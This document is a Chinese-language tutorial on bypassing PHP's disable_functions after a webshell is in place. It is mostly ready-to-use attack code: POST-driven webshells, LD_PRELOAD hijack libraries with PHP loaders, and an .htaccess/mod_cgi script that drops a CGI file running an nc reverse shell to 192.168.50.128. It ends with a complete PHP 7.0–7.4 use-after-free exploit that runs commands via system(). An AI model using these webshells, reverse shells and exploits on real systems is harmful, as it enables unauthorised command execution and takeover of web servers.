

### PHP ByPass Disbale_Function

在获取一枚`webshell`的时候，尝试命令执行，却发现无法执行命令，那么就是php.ini中设置了disable_functions


### PHP内置系统执行函数

- system()

  ```php
  string system ( string $command [, int &$return_var ] );
  # $command为执行的命令，&return_var可选，用来存放命令执行后的状态码
  # system 函数执行有回显，可将结果显示在页面上
  
  <?php
  	system("whoami");
  ?>
  ```

- passthru()

  ```php
  void passthru ( string $command [, int &$return_var ] );
  # 和system函数类似，$command为执行的命令，&return_var可选，用来存放命令执行后的状态码
  # passthru 执行有回显，可将执行结果显示在页面上
  
  <?php
  	passthru("whoami");
  ?>
  ```

- exec()

  ```php
  string exec ( string $command [, array &$output [, int &$return_var ]] );
  # $command是要执行的命令
  # $output是获得执行命令输出的每一行字符串，$return_var用来保存命令执行的状态码（检测成功或失败）
  # exec()函数执行无回显，默认返回最后一行结果
  
  <?php
  	echo exec("whoami");
  ?>
  
  <?php  
  $test = "ipconfig";   
  exec($test,$array);      
  print_r($array);  
  ?>
  ```

- shell_exec()

  ```php
  string shell_exec( string &command);
  # $command是要执行的命令
  # shell_exec()函数默认无回显，通过 echo 可将执行结果输出到页面
  
  <?php
  	echo shell_exec("whoami");
  ?>
  # `(反引号) shell_exec() 函数实际上仅是反引号 (`) 操作符的变体，当禁用shell_exec时，` 也不可执行
  # 在php中称之为执行运算符，PHP 将尝试将反引号中的内容作为 shell 命令来执行，并将其输出信息返回
  
  <?php
  	echo `whoami`;
  ?
  ```

- popen()

  ```php
  resource popen ( string $command , string $mode );
  # 函数需要两个参数，一个是执行的命令command，另外一个是指针文件的连接模式mode，有r和w代表读和写。函数不会直接返回执行结果，而是返回一个文件指针，但是命令已经执行。popen()打开一个指向进程的管道，该进程由派生给定的command命令执行而产生。返回一个和fopen()所返回的相同的文件指针，只不过它是单向的（只能用于读或写）并且必须用pclose()来关闭。此指针可以用于fgets()，fgetss()和 fwrite()
  ```

  `shell.php`

  ```php
  <?php  
  $command = $_POST[cmd];  
  $fp = popen($command,"r");
    
  while (!feof($fp)) {
   $out = fgets($fp, 4096);  
   echo  $out;
  }  
  pclose($fp);  
  ?>
  ```


反弹shell


- proc_open()

  ```php
  resource proc_open ( 
  string $cmd , 
  array $descriptorspec , 
  array &$pipes [, string $cwd [, array $env [, array $other_options ]]] 
  );
  # 与Popen函数类似，但是可以提供双向管道
  ```

  `shell.php`

  ```php
  <?php  
  $command = $_POST[cmd];  
  $array =   array(  
   array("pipe","r"),   //标准输入  
   array("pipe","w"),   //标准输出内容  
   array("pipe","w")    //标准输出错误  
   );  
    
  $fp = proc_open($command,$array,$pipes);   //打开一个进程通道  
  echo stream_get_contents($pipes[1]);    //为什么是$pipes[1]，因为1是输出内容  
  proc_close($fp);  
  ?> 
  ```


反弹shell


- pcntl_exec()

```php
void pcntl_exec ( string $path [, array $args [, array $envs ]] )
```

path是可执行二进制文件路径或一个在文件第一行指定了 一个可执行文件路径标头的脚本
args是一个要传递给程序的参数的字符串数组。

pcntl是linux下的一个扩展，需要额外安装，可以支持 php 的多线程操作。

pcntl_exec函数的作用是在当前进程空间执行指定程序，版本要求：PHP > 4.2.0

### LD_PRELOAD绕过

**LD_PRELOAD**是linux系统下的环境变量，它允许你在定义程序运行前优先加载动态链接库，这个功能只要是用来有选择性的载入不同的不同动态链接库的中的相同函数。通过这个环境变量，可以在主程序和其他动态链接库的中间加载别的动态链接库，甚至覆盖正常的函数库。一方面可以使用自己的或是更好的的函数（无需别人的源码），而另一方面，我们也可以向别人的程序注入程序，从而达到特定的目的。

找寻内部启动新进程的 PHP 函数。虽然 LD_PRELOAD 提供了劫持系统函数的能力，但前提是必须得控制 php 启动外部程序才行（只要有进程启动行为即可，无所谓是谁） ，经过探索可以知道php中的mail()函数调用之后会启动sendmail这个进程。 运行 PHP 的 mail() 函数，mail() 内部启动新进程 /usr/sbin/sendmail，由于 LD_PRELOAD 的作用，sendmail 调用的系统函数 geteuid() 被优先级更好的 geteuid_shadow.so 中的同名 geteuid() 所劫持。

#### EXP-1

动态链接库C脚本

```c
#define _GNU_SOURCE

#include <stdlib.h>
#include <stdio.h>
#include <string.h>


extern char** environ;

int geteuid ()
{
    const char* cmdline = "whoami > /var/www/html/test.txt"
    int i;
    for (i = 0; environ[i]; ++i) {
            if (strstr(environ[i], "LD_PRELOAD")) {
                    environ[i][0] = '\0';
            }
    }
    system(cmdline);
}

```

php脚本

```php
<?php
    putenv("LD_PRELOAD=/var/www/html/hack.so")
    mail("","","","","");
?>
```

将劫持代码编译成动态链接库 ,若目标为 x86 架构，需要加上 `-m32` 选项重新编译 

```shell
gcc -fPIC -shared test.c -o test.so
```

分别将动态库test.so文件，php脚本`test.php`上传到服务器中，再访问`test.php`脚本文件，如果成功将`geteuid`函数劫持，那么将会把`whoami`命令结果重定向在`/var/www/html/test.txt`文件中


在真实环境中，存在两方面问题：一是，某些环境中，web 禁止启用 sendmail、甚至系统上根本未安装 sendmail，也就谈不上劫持 getuid()，通常的 www-data 权限又不可能去更改 php.ini 配置、去安装 sendmail 软件；二是，即便目标可以启用 sendmail，由于未将主机名（hostname 输出）添加进 hosts 中，导致每次运行 sendmail 都要耗时半分钟等待域名解析超时返回，www-data 也无法将主机名加入 hosts（如，127.0.0.1 lamp、lamp.、lamp.com）。基于这两个原因，不得不放弃劫持函数 geteuid()，必须找个更实用的方法。回到 LD_PRELOAD 本身，系统通过它预先加载共享对象，如果能找到一个方式，在加载时就执行代码，而不用考虑劫持某一系统函数，那就完全可以不依赖 sendmail 了。

GCC 有个 C 语言扩展修饰符 `__attribute__((constructor))`，可以让由它修饰的函数在 main() 之前执行，若它出现在共享对象中时，那么一旦共享对象被系统加载，立即将执行 `__attribute__((constructor))` 修饰的函数。这一细节非常重要，很多朋友用 LD_PRELOAD 手法突破 disable_functions 无法做到百分百成功，正因为这个原因，**不要局限于仅劫持某一函数，而应考虑拦劫启动进程这一行为**

此外，通过 LD_PRELOAD 劫持了启动进程的行为，劫持后又启动了另外的新进程，若不在新进程启动前取消 LD_PRELOAD，则将陷入无限循环，所以必须得删除环境变量 LD_PRELOAD。最直观的做法是调用 `unsetenv("LD_PRELOAD")`，这在大部份 linux 发行套件上的确可行，但在 centos 上却无效，究其原因，centos 自己也 hook 了 unsetenv()，在其内部启动了其他进程，根本来不及删除 LD_PRELOAD 就又被劫持，导致无限循环。所以，我得找一种比 unsetenv() 更直接的删除环境变量的方式。是它，全局变量 `extern char** environ`！实际上，unsetenv() 就是对 environ 的简单封装实现的环境变量删除功能。 

#### EXP-2

动态链接库C脚本

```c
#define _GNU_SOURCE

#include <stdlib.h>
#include <stdio.h>
#include <string.h>


extern char** environ;

__attribute__ ((__constructor__)) void preload (void)
{
    // get command line options and arg
    const char* cmdline = getenv("EVIL_CMDLINE");

    // unset environment variable LD_PRELOAD.
    // unsetenv("LD_PRELOAD") no effect on some 
    // distribution (e.g., centos), I need crafty trick.
    int i;
    for (i = 0; environ[i]; ++i) {
            if (strstr(environ[i], "LD_PRELOAD")) {
                    environ[i][0] = '\0';
            }
    }

    // executive command
    system(cmdline);
}
```


```php
<?php
    $cmd = $_GET["cmd"];
    $out_path = $_GET["outpath"];
    $evil_cmdline = $cmd . " > " . $out_path . " 2>&1";
    echo "<p> <b>cmdline</b>: " . $evil_cmdline . "</p>";

    putenv("EVIL_CMDLINE=" . $evil_cmdline);

    $so_path = $_GET["sopath"];
    putenv("LD_PRELOAD=" . $so_path);

    mail("", "", "", "");

    echo "<p> <b>output</b>: <br />" . nl2br(file_get_contents($out_path)) . "</p>"; 

    unlink($out_path);
?>
```

首先先编译c脚本为动态链接库

```shell
gcc -fPIC -shared hack.c -o hack.so
```

分别将动态库hack.so文件，php脚本`hack.php`上传到服务器中，再访问`hack.php`脚本文件，并带上参数`cmd`(待执行的命令)，`outpath`(结果重定向文件位置),`sopath`(加载动态链接库的位置)


#### EXP-3

`error_log + putenv`

 error_log(error,type,destination,headers) ， 当type为1时，服务器就会把error发送到参数 destination 设置的邮件地址 

```php
error_log("test", 1, "", "");
```


### .htaccess 不止重定向绕过

 在apache的WEB环境中，经常会使用`.htaccess`这个文件来确定某个目录下的URL重写规则， 但是如果.htaccess文件被攻击者修改的话，攻击者就可以利用apache的mod_cgi模块，直接绕过PHP的任何限制，来执行系统命令 

 “任何具有mime类型application/x-httpd-cgi或者被 cgi-script处理器(Apache 1.1或以后版本)处理的文件将被作为CGI脚本对待并由服务器运行, 它的输出将被返回给客户端。通过两种途径使文件成为CGI脚本，或者文件具有已由 AddType指令定义的扩展名，或者文件位于 ScriptAlias目录中。” 

 首先需要满足几个条件，

- 必须是apache环境
- mod_cgi已经启用
- 必须允许.htaccess文件，也就是说在httpd.conf(apache2.conf)中，要注意AllowOverride选项为All，而不是none
- 必须有权限写.htaccess文件

在apache的配置中，有一个非常重要的指令，Options，Options指令是Apache配置文件中一个比较常见也比较重要的指令，Options指令可以在Apache服务器核心配置(server config)、虚拟主机配置(virtual host)、特定目录配置(directory)以及.htaccess文件中使用

Options指令是Apache配置文件中一个比较常见也比较重要的指令，**Options**指令可以在Apache服务器核心配置(server config)、虚拟主机配置(virtual host)、特定目录配置(directory)以及.htaccess文件中使用, 允许使用**mod_cgi**模块执行CGI脚本那么用到的就是**ExecCGI**选项， **AddHandler**是指定扩展名和处理程序之间的关系，也就是说，可以指定某个特定的扩展名的文件，如何来进行处理

有了Options和AddHandler，我们就可以随便指定一个特定的文件扩展名以特定的程序来处理，这样思路就很清晰了：先把要执行的程序写入一个特定扩展名的文件里，然后修改.htaccess文件，通过Options指令允许使用mod_cgi模块执行CGI脚本，然后再让我们特定的扩展名以cgi-script进行处理，这样我们甚至可以反弹一个shell出来。 

#### EXP

```php
<?php
$cmd = "nc -c /bin/bash 192.168.50.128 4444"; //反弹一个shell出来，这里用本地的4444端口
$shellfile ="#!/bin/bash\n"; //指定shell
$shellfile .="echo -ne \"Content-Type: text/html\\n\\n\"\n"; //需要指定这个header，否则会返回500
$shellfile .="$cmd"; 
function checkEnabled($text,$condition,$yes,$no) //this surely can be shorter
{
    echo "$text: " . ($condition ?$yes : $no) . "<br>\n";
}
if(!isset($_GET['checked']))
{
    @file_put_contents('.htaccess',"\nSetEnv HTACCESS on", FILE_APPEND); 
    header('Location: ' . $_SERVER['PHP_SELF']. '?checked=true'); //执行环境的检查
}
else
{
    $modcgi = in_array('mod_cgi',apache_get_modules()); // 检测mod_cgi是否开启
    $writable = is_writable('.'); //检测当前目录是否可写
    $htaccess = !empty($_SERVER['HTACCESS']);//检测是否启用了.htaccess
        checkEnabled("Mod-Cgienabled",$modcgi,"Yes","No");
        checkEnabled("Iswritable",$writable,"Yes","No");
        checkEnabled("htaccessworking",$htaccess,"Yes","No");
    if(!($modcgi && $writable&& $htaccess))
    {
        echo "Error. All of the above mustbe true for the script to work!"; //必须满足所有条件
    }
    else
    {
       
 checkEnabled("Backing 
up.htaccess",copy(".htaccess",".htaccess.bak"),"Suceeded!Saved in 
.htaccess.bak","Failed!"); //备份一下原有.htaccess
        
checkEnabled("Write 
.htaccessfile",file_put_contents('.htaccess',"Options +ExecCGI\nAddHandler cgi-script .dizzle"),"Succeeded!","Failed!");//.dizzle，我们的特定扩展名
        checkEnabled("Write shellfile",file_put_contents('shell.dizzle',$shellfile),"Succeeded!","Failed!");//写入文件
        checkEnabled("Chmod777",chmod("shell.dizzle",0777),"Succeeded!","Failed!");//给权限
        echo "Executing the script now.Check your listener. ";
    }
}
?>
```


### PHP特定版本bypass

#### Target

- 7.0 - all versions to date
- 7.1 - all versions to date
- 7.2 - all versions to date
- 7.3 < 7.3.15 (released 20 Feb 2020)
- 7.4 < 7.4.3 (released 20 Feb 2020)

#### EXP

```php
<?php

# PHP 7.0-7.4 disable_functions bypass PoC (*nix only)
#
# Bug: https://bugs.php.net/bug.php?id=76047
# debug_backtrace() returns a reference to a variable 
# that has been destroyed, causing a UAF vulnerability.
#
# This exploit should work on all PHP 7.0-7.4 versions
# released as of 30/01/2020.
#
# Author: https://github.com/mm0r1

pwn($_GET["cmd"]);

function pwn($cmd) {
    global $abc, $helper, $backtrace;

    class Vuln {
        public $a;
        public function __destruct() { 
            global $backtrace; 
            unset($this->a);
            $backtrace = (new Exception)->getTrace(); # ;)
            if(!isset($backtrace[1]['args'])) { # PHP >= 7.4
                $backtrace = debug_backtrace();
            }
        }
    }

    class Helper {
        public $a, $b, $c, $d;
    }

    function str2ptr(&$str, $p = 0, $s = 8) {
        $address = 0;
        for($j = $s-1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
    }

    function ptr2str($ptr, $m = 8) {
        $out = "";
        for ($i=0; $i < $m; $i++) {
            $out .= chr($ptr & 0xff);
            $ptr >>= 8;
        }
        return $out;
    }

    function write(&$str, $p, $v, $n = 8) {
        $i = 0;
        for($i = 0; $i < $n; $i++) {
            $str[$p + $i] = chr($v & 0xff);
            $v >>= 8;
        }
    }

    function leak($addr, $p = 0, $s = 8) {
        global $abc, $helper;
        write($abc, 0x68, $addr + $p - 0x10);
        $leak = strlen($helper->a);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
        return $leak;
    }

    function parse_elf($base) {
        $e_type = leak($base, 0x10, 2);

        $e_phoff = leak($base, 0x20);
        $e_phentsize = leak($base, 0x36, 2);
        $e_phnum = leak($base, 0x38, 2);

        for($i = 0; $i < $e_phnum; $i++) {
            $header = $base + $e_phoff + $i * $e_phentsize;
            $p_type  = leak($header, 0, 4);
            $p_flags = leak($header, 4, 4);
            $p_vaddr = leak($header, 0x10);
            $p_memsz = leak($header, 0x28);

            if($p_type == 1 && $p_flags == 6) { # PT_LOAD, PF_Read_Write
                # handle pie
                $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
                $data_size = $p_memsz;
            } else if($p_type == 1 && $p_flags == 5) { # PT_LOAD, PF_Read_exec
                $text_size = $p_memsz;
            }
        }

        if(!$data_addr || !$text_size || !$data_size)
            return false;

        return [$data_addr, $text_size, $data_size];
    }

    function get_basic_funcs($base, $elf) {
        list($data_addr, $text_size, $data_size) = $elf;
        for($i = 0; $i < $data_size / 8; $i++) {
            $leak = leak($data_addr, $i * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                # 'constant' constant check
                if($deref != 0x746e6174736e6f63)
                    continue;
            } else continue;

            $leak = leak($data_addr, ($i + 4) * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                # 'bin2hex' constant check
                if($deref != 0x786568326e6962)
                    continue;
            } else continue;

            return $data_addr + $i * 8;
        }
    }

    function get_binary_base($binary_leak) {
        $base = 0;
        $start = $binary_leak & 0xfffffffffffff000;
        for($i = 0; $i < 0x1000; $i++) {
            $addr = $start - 0x1000 * $i;
            $leak = leak($addr, 0, 7);
            if($leak == 0x10102464c457f) { # ELF header
                return $addr;
            }
        }
    }

    function get_system($basic_funcs) {
        $addr = $basic_funcs;
        do {
            $f_entry = leak($addr);
            $f_name = leak($f_entry, 0, 6);

            if($f_name == 0x6d6574737973) { # system
                return leak($addr + 8);
            }
            $addr += 0x20;
        } while($f_entry != 0);
        return false;
    }

    function trigger_uaf($arg) {
        # str_shuffle prevents opcache string interning
        $arg = str_shuffle(str_repeat('A', 79));
        $vuln = new Vuln();
        $vuln->a = $arg;
    }

    if(stristr(PHP_OS, 'WIN')) {
        die('This PoC is for *nix systems only.');
    }

    $n_alloc = 10; # increase this value if UAF fails
    $contiguous = [];
    for($i = 0; $i < $n_alloc; $i++)
        $contiguous[] = str_shuffle(str_repeat('A', 79));

    trigger_uaf('x');
    $abc = $backtrace[1]['args'][0];

    $helper = new Helper;
    $helper->b = function ($x) { };

    if(strlen($abc) == 79 || strlen($abc) == 0) {
        die("UAF failed");
    }

    # leaks
    $closure_handlers = str2ptr($abc, 0);
    $php_heap = str2ptr($abc, 0x58);
    $abc_addr = $php_heap - 0xc8;

    # fake value
    write($abc, 0x60, 2);
    write($abc, 0x70, 6);

    # fake reference
    write($abc, 0x10, $abc_addr + 0x60);
    write($abc, 0x18, 0xa);

    $closure_obj = str2ptr($abc, 0x20);

    $binary_leak = leak($closure_handlers, 8);
    if(!($base = get_binary_base($binary_leak))) {
        die("Couldn't determine binary base address");
    }

    if(!($elf = parse_elf($base))) {
        die("Couldn't parse ELF header");
    }

    if(!($basic_funcs = get_basic_funcs($base, $elf))) {
        die("Couldn't get basic_functions address");
    }

    if(!($zif_system = get_system($basic_funcs))) {
        die("Couldn't get zif_system address");
    }

    # fake closure object
    $fake_obj_offset = 0xd0;
    for($i = 0; $i < 0x110; $i += 8) {
        write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
    }

    # pwn
    write($abc, 0x20, $abc_addr + $fake_obj_offset);
    write($abc, 0xd0 + 0x38, 1, 4); # internal func type
    write($abc, 0xd0 + 0x68, $zif_system); # internal func handler

    ($helper->b)($cmd);
    exit();
}
```



